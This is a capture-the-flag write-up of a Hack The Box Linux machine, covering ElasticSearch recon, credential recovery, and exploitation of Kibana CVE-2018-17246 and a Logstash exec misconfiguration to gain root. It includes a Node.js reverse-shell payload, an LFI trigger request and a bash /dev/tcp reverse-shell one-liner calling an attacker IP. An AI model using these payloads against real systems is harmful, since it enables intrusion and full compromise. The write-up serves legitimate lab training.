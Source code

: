 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### 🧭 Recon

#### Nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.115
nmap -sC -sV -p 22,80,9200 -oA scans/nmap-scripts 10.10.10.115
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP), 9200 (ElasticSearch/HTTP)

#### Port 80 - Website
- Basic HTML page with image: `needle.jpg`
- `strings -n 20 needle.jpg` → revealed base64: `bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==`
- Decoded: `la aguja en el pajar es "clave"`

#### Port 9200 - ElasticSearch
```
curl http://10.10.10.115:9200/_cat/indices?v
```
- Notable indexes: `quotes`, `bank`, `api`, `.kibana`

#### Extracting sensitive strings
```
curl -s -X GET "http://10.10.10.115:9200/quotes/_search?size=1000" -H 'Content-Type: application/json' -d'{"query": {"match_all": {}}}' | jq -c '.hits.hits[]' | grep clave
```
- Found base64 encoded user and password:
```
echo dXNlcjogc2VjdXJpdHkg | base64 -d  # user: security
echo cGFzczogc3BhbmlzaC5pcy5rZXk= | base64 -d  # pass: spanish.is.key
```

### 🐚 Shell as security
```
ssh security@10.10.10.115
```
- Successfully authenticated.
- Grab `user.txt`

### 📦 Port Forwarding to Kibana
```
ssh -L 5601:localhost:5601 security@10.10.10.115
```
- Access Kibana via: http://localhost:5601

### 🐚 Shell as kibana

#### Kibana CVE-2018-17246
- Create payload at `/dev/shm/0xdf.js`:
```js
(function(){
  var net = require("net"),
      cp = require("child_process"),
      sh = cp.spawn("/bin/sh", []);
  var client = new net.Socket();
  client.connect(443, "10.10.14.8", function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
  });
  return /a/;
})();
```
- Trigger LFI execution:
```
curl 'http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../dev/shm/0xdf.js'
```
- Catch reverse shell: `nc -lnvp 443`

### 🧪 Privesc: kibana → root

#### Logstash Misconfiguration
- Logstash runs as **root**
- Kibana can read `/etc/logstash/conf.d` configs

##### Relevant config snippets:
- **input.conf**: watches `/opt/kibana/logstash_*` files
- **filter.conf**: parses `Ejecutar comando: <COMMAND>`
- **output.conf**: uses `exec` plugin to run the command

##### Trigger
```
echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_rootme
```
- Catch shell: `nc -lnvp 443`

### 🏁 Root access
```
id
cat /root/root.txt
```

---

## ✅ Summary
- Recon revealed ElasticSearch and Kibana
- Found SSH credentials via stego in ElasticSearch
- Used Kibana LFI (CVE-2018-17246) to gain shell as kibana
- Privileged escalation through Logstash input config
- Root compromise complete

---

## 🏷 Tags
`ElasticSearch`, `Kibana`, `CVE-2018-17246`, `Logstash`, `File Monitoring`, `Reverse Shell`, `HTB`, `Privilege Escalation`, `Command Injection`, `Steganography`, `SSH`

